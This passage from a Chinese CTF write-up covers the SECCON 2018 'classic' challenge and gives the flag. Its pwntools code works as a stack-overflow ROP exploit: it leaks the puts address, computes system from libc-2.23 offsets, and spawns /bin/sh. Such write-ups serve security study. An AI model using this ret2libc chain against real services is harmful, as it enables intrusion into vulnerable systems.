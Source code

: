 我在尝试了很久终于写出了如何在上面 payload1 发送后成功得到争取的 puts address 的方法：

注意，在读取泄露的内容前读取完会输出的内容（payload1 是在漏洞函数结束后才执行）

```python
print p.recvuntil('Have a nice pwn!!\n')
s = p.recvuntil("\n")

data = s[:8] # 遇到 0a 很烦
while len(data) < 8:
    another_address = address + len(data)
    payload1 = 'a'*(48+24)+ p64(poprdi_ret) + p64(another_address) + p64(puts_plt) + p64(vuln_addr)
    p.sendline(payload1) # 自动添加 \n
    print p.recvuntil('Have a nice pwn!!\n')
    s = p.recvuntil("\n")
    data += s[:8]
print "%#x => %s" % (address, (data or '').encode('hex'))

data = data.replace("\n", "\0") # 把 puts 替换的 0a 全部换成 00，尤其是 上面 print 输出的末尾那些 0a 必须换！
put_addr = u64(data) # 8 字节的字符转换为 " 地址格式 "
print "put_addr: ", hex(put_addr)
```

这里说明一下，data 本来该是 puts 的地址，但是由于这个地址高位在内存中放入 address 地址也就是末尾会存在 00，导致 puts 无法正常输出这些 00，会补上 \n （0x0a），所以需要替换。

然后 u64 就是把 8 字节的字符转换为 " 地址格式 "（0x401020 这种）

（4）**利用相对偏移计算 system 地址**

```python
# libc.so 文件作用是告诉你相对偏移！
libc = ELF('./libc-2.23.so')
put_libc = libc.symbols['puts']
# print "%#x" % put_libc # 0x6f690   就是 puts 在 libc 中的偏移！
system_libc = libc.symbols['system']
# print "%#x" % system_libc # 0x6f690   就是 puts 在 libc 中的偏移！

system_addr = put_addr - put_libc + system_libc
```

（5）**编写第二个 payload2**

```python
bss_addr = 0x0601060  # IDA segment ，选择 .bss 的 start 地址
gets_plt = 0x400560   # gdb 动态调试得到，IDA 查看验证，和 put_plt 得到原理一样
payload2 = 'a'*(48+24) + p64(poprdi_ret) + p64(bss_addr) + p64(gets_plt) + p64(poprdi_ret) + p64(bss_addr) + p64(system_addr) + p64(vuln_addr)

p.recvuntil("Local Buffer >>")
p.sendline(payload2)
p.sendline('/bin/sh\0')
p.interactive() 
```

要是理解 payload2 原理存在困难，建议看看前面的 DynELF leak 函数分析流程。

最终得到的 POC 就是前面双 payload 利用模板的代码，flag 是**SECCON{w4rm1ng_up_by_7r4d1710n4l_73chn1qu3}**

文件下载：[classic](https://saferman.github.io/assets/downloads/seccon_2018_classic.zip)

### 优秀的参考链接推荐

[基础栈溢出复习 二 之 ROP](https://bestwing.me/2017/03/19/stack-overflow-two-ROP/)

